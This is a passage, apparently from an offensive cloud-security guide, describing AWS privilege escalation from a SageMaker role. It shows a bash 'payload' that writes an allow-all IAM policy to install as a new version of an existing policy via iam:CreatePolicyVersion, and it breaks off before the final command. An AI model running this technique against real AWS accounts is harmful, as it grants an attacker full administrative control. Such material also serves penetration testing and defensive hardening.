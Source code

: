 ```bash
    --user-data $USER_DATA_BASE64
```
  
#### **Technique 3: Modify an Existing Policy to Add Privileges**

If the SageMaker role has permissions to modify existing IAM policies (e.g., iam:CreatePolicyVersion), an attacker can add new, permissive statements to a policy that is already attached to a user or role they control.

* **Required Permissions:** iam:CreatePolicyVersion.  
* Payload Example (Add Full Admin Rights to an Existing Policy):  
  This script creates a new version of an existing policy, making it fully administrative. This would elevate the privileges of any principal already using this policy.  


```bash
#!/bin/bash

# The ARN of a policy the attacker can modify and is attached to a principal they control
TARGET_POLICY_ARN="arn:aws:iam::<ACCOUNT_ID>:policy/TargetUserPolicy"

# Create a new policy document that grants AdministratorAccess
cat << EOF > /tmp/new_policy.json
{
    "Version": "2012-10-17",
    "Statement": [
        {
            "Effect": "Allow",
            "Action": "*",
            "Resource": "*"
        }
    ]
}
EOF
```
